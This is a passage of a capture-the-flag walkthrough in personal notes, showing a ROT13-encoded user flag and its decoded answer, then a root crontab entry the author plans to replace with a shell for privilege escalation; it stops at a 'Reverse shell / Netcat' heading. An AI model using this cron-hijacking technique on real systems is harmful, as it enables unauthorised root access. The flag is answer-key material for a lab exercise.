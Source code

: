 ```
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!
boring@kral4-PC:~$ ls
user.txt
boring@kral4-PC:~$ cat user.txt
User Flag But It Seems Wrong Like It`s Rotated Or Something
synt{a0jvgf33zfa0ez4y}
boring@kral4-PC:~$ 

```

when we read the file, it seems our [Flag](../../3%20-%20Tags/Hacking%20Concepts/Flag.md) got a bit messed up! The hint says it got rotated. We can easily find an online [ROT](../../3%20-%20Tags/Hacking%20Concepts/ROT.md) decrypter. It turns out its rot -13.

<span style="color: rgb(45, 194, 107);">**flag{n0wits33msn0rm4l}**</span>

# Privilege Escalation

Now we can do [Privilege Escalation](../../3%20-%20Tags/Hacking%20Concepts/Privilege%20Escalation.md), we check crontabs we see there's a cronjob we can replace with a [Shell](../../3%20-%20Tags/Hacking%20Concepts/Shell.md) :

```
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh

```

if we cat it , we can read it will run as root .

## Reverse shell

### Netcat 

